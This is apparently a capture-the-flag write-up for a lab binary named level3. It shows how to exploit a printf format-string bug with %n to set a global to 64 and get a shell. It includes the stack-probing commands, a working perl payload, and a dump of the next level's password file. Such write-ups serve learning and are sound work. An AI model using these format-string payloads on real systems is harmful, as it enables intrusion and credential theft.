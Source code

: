# level3

We have a program named level3
```bash
> ./level3
text  <- user input
text  <- program output
```

If we disass the program, we see a function `v`.

In this function, there is a fgets call, then a printf of the fgets

After the printf, we have a condition
```c
;  address of a constant in the data section
if ds:0x804988c == 64 {
	system("/bin/sh")
}
```

We will use a vulnerability of printf with the `%n` option
> https://www.exploit-db.com/papers/23985.

The goal is to write the value `64` in the address `0x804988c`.

---

By specifying printf args that have not been sent, it will still look for them in the stack
```bash
> echo "AAAAA %x %x %x %x" | ~/level3
AAAAA 200 b7fd1ac0 b7ff37d0 41414141
```

We can also do this
```bash
> echo "%x %x" | ~/level3
200 b7fd1ac0
> echo "%1\$x" | ~/level3
200
> echo "%2\$x" | ~/level3
b7fd1ac0
```

Let's determine the offset at which the first printf arg begin
```bash
> for i in {0..100}; do echo "Index: $i" && echo "****%$i\$x" | ./level3 ; done | grep -B1 2a2a
Index: 4
****2a2a2a2a
```
This mean that we can do
```bash
> echo "ABCDAA %4\$x" | ./level3
ABCDAA 44434241

# 41 A,  42 B,  43 C,  44 D

# ABCDAA 44 43 42 41
#        D  C  B  A
```

---

The `%n` option

```c
printf("AAAAAA%n", addr)
// addr = 0x6;  // because of the 6 'A' before %n
```
> "%n: the number of characters already written is stored in the integer indicated by the pointer argument of type int *. No arguments are converted."

So if we write the address of the variable that we want to change the value (4 char) + 60 random char and the `%n` option, the value `64` will be writed in the address.

---

Let's try this:

```bash
> perl -e 'print "\x8c\x98\x04\x08" . "A"x60 . "%4\$n"' > /tmp/args
> cat /tmp/args - | ./level3
...
Wait what?!
# this is the /bin/sh
> cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

---

Alternative:

```bash
> (perl -e 'print "\x8c\x98\x04\x08" . "A"x(64-4) . "%4\$n"'; cat) | ./level3

�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```